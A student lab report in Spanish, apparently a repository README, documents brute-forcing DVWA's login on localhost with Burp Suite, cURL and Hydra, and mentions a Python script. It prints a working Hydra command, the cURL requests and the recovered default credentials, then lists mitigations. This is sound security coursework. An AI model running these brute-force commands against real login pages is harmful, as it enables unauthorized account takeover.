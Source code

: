 # Informe Laboratorio 2 – DVWA (Damn Vulnerable Web App)

**Autor:** Felipe Cuevas  
**Fecha:** Octubre 2025  
**Correo:** felipe.cuevas1@mail.udp.cl

---

## Descripción del laboratorio

En este laboratorio se realizaron pruebas de seguridad web sobre la aplicación vulnerable **DVWA**, específicamente sobre el módulo de **Brute Force**. Las herramientas empleadas fueron:

- Docker (para desplegar DVWA)  
- Burp Suite (proxy y ataque de fuerza bruta)  
- cURL (accesos válidos e inválidos)  
- Hydra (ataque de fuerza bruta automático)  
- Python (`requests`) para script de fuerza bruta  

Se obtuvieron resultados en forma de credenciales válidas, análisis de tráfico y comparación de herramientas.

---

## Contenido del repositorio

```

  ├─ levantamiento.png
  ├─ redireccion.png
  ├─ consultaproxy.png
  ├─ campos2.3.png
  ├─ prompt.png
  ├─ usuariosdiccionario.png
  ├─ passworddiccionario.png
  ├─ par1.png
  ├─ par1v2.png
  ├─ par1response.png
  ├─ par2.png
  ├─ par2v2.png
  ├─ par2response.png
  ├─ login.png
  ├─ php.png
  ├─ usodecurl.png
  ├─ welcome.png
  ├─ accesoinvalido.png
  ├─ lengthinvalido.png
  ├─ Lengthvalida.png
  ├─ hydracredencialn1.png
  ├─ gordonb.png
  ├─ hydracredencialn2.png
  └─ 1337.png

Docker-compose.yml  
usuarios.txt  
passwords.txt  
hydra_results.txt  
acceso_valido_low.txt  
acceso_invalido_low.txt  
script_bruteforce.py
python_bruteforce_results.txt
```

---

## Procedimiento resumido

### 1. Despliegue de DVWA con Docker

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
sudo docker-compose up -d
sudo docker ps
```

- Contenedores: `db` (MySQL) y `dvwa` (Apache + PHP)  
- Acceso: [http://localhost:4280](http://localhost:4280)  

![Levantamiento de DVWA](levantamiento.png)

---

### 2. Obtención de consultas con Burp Suite

- Configuración de proxy y navegador  
- Captura de petición GET al formulario de login  
- Identificación de campos: `username` y `password`  
- Generación de diccionarios con IA  
- Ejecución de ataque Intruder → obtención de pares válidos:

| Usuario | Contraseña |
|---------|------------|
| 1337    | Charley    |
| pablo   | letmein    |

![Consulta proxy](consultaproxy.png)

---

### 3. Accesos válidos e inválidos con cURL

```bash
curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=letmein&Login=Login" > acceso_valido_low.txt

curl -i --cookie "security=low; PHPSESSID=<ID>" \
"http://localhost:4280/vulnerabilities/brute/?username=pablo&password=pablito&Login=Login" > acceso_invalido_low.txt
```

Diferencias clave entre respuestas:

- Mensaje de autenticación  
- Imagen de perfil del usuario  
- Tamaño del contenido (Content-Length)  
- Inclusión del nombre de usuario en HTML  

![Acceso válido](Lengthvalida.png)  
![Acceso inválido](lengthinvalido.png)

---

**Nota importante:** en las pruebas con **Hydra**, **cURL** y **Python** se usó la cookie de sesión `PHPSESSID` de una sesión iniciada previamente en la página de login de DVWA (antes de llegar al formulario de ataque de fuerza bruta). **Es necesario reemplazar el valor de `PHPSESSID` (`<ID>`) en los comandos y scripts por el valor real obtenido desde el navegador** antes de ejecutar las pruebas.

---

### 4. Ataque de fuerza bruta con Hydra

Instalación en Linux:

```bash
sudo apt install hydra
```

Ejecución:

```bash
hydra -L usuarios.txt -P passwords.txt localhost http-get-form \
"/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low;PHPSESSID=<ID>:F=Username and/or password incorrect" \
-V -s 4280 -o hydra_results.txt
```

Credenciales obtenidas:

| Usuario  | Contraseña |
|----------|------------|
| gordonb  | abc123     |
| 1337     | charley    |

![Hydra credenciales](hydracredencialn1.png)

---

### 5. Script de fuerza bruta en Python

- Librería: `requests`  
- Itera sobre listas de usuarios y contraseñas  
- Mantiene sesión con cabecera `Cookie`  
- Detecta respuestas válidas comparando contenido HTML  

**Comando para ejecutar el script (usar los archivos `usuarios.txt` y `passwords.txt`):**

```bash
python3 fuerzabruta.py usuarios.txt passwords.txt
```

### 6. Comparación de herramientas

| Herramienta | Ventajas | Desventajas |
|------------|----------|-------------|
| Burp Suite | Preciso, analiza tráfico, permite modificar peticiones | Lento en ataques masivos |
| cURL       | Rápido, control manual | Laborioso para pruebas múltiples |
| Hydra      | Muy rápido, ataques concurrentes | Detectable por WAF, menos control |
| Python     | Flexible, personalizable | Rendimiento intermedio |

---

## Métodos de mitigación de fuerza bruta

1. Limitación de intentos de login  
2. Captchas o validaciones humanas  
3. Bloqueo temporal de cuentas tras múltiples fallos  
4. Uso de autenticación multifactor (2FA)

---

## Referencias

- DVWA: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)  
- Burp Suite Community: [https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)  
- Hydra: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
